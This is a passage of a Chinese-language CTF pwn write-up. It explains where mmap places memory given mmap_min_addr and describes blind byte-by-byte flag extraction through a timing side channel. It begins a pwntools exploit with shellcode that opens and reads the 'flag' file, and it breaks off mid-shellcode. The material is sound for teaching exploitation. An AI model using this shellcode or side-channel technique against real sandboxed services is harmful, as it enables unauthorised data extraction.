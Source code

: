 ```plain
// about mmap (link: https://man7.org/linux/man-pages/man2/mmap.2.html)
// 1. SYNOPSIS
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);

/* 2. DESCRIPTION
 mmap() creates a new mapping in the virtual address space of the
       calling process.  The starting address for the new mapping is
       specified in addr.  The length argument specifies the length of
       the mapping (which must be greater than 0).

       If addr is NULL, then the kernel chooses the (page-aligned)
       address at which to create the mapping; this is the most portable
       method of creating a new mapping.  If addr is not NULL, then the
       kernel takes it as a hint about where to place the mapping; on
       Linux, the kernel will pick a nearby page boundary (but always
       above or equal to the value specified by
       /proc/sys/vm/mmap_min_addr) and attempt to create the mapping
       there.  If another mapping already exists there, the kernel picks
       a new address that may or may not depend on the hint.  The
       address of the new mapping is returned as the result of the call.
......
*/
```

由 `on Linux, the kernel will pick a nearby page boundary (but always above or equal to the value specified by /proc/sys/vm/mmap_min_addr)` 可知：Linux 为 `mmap` 分配虚拟内存时，总是从最接近 `addr` 的页边缘开始的，而且保证地址不低于 `/proc/sys/vm/mmap_min_addr` 所指定的值。  
可以看到，`mmap_min_addr = 65536 = 0x10000`，因此刚才判断程序利用 mmap 函数在 0x10000 处开辟一个 page 的空间

因此 mmap 申请的内存的起始地址应该为 0x10000，截至地址应该为 0x11000，大小为 0x1000，这里附上其他师傅进行动调 vmmap 得到的结果，和我所理解的是一样的

[![](assets/1701612140-66ef09e5b4d32fc904cb30a1f85b5c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203704-70756b70-3b68-1.png)

由于缺少 write() 函数，我们无法输出 flag，可以进行单个字节的对比爆，即读取 flag 到一块内存区域，随后单字节爆破，在 shellcode 中设置 loop 循环，一旦 cmp 命中就让程序卡死，否则执行后面的 exit 因为沙箱禁用程序崩溃退出，根据程序的表现可以区分是否命中，注意因为服务器通信不稳定，每次读到一段 flag 就更新 exp 中的 flag 字符串继续向后爆破

exp：

```plain
#coding=utf-8
from pwn import *

context.update(arch='amd64',os='linux',log_level='info')

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x10700
            mov dl,0x40
            xor rax,rax
```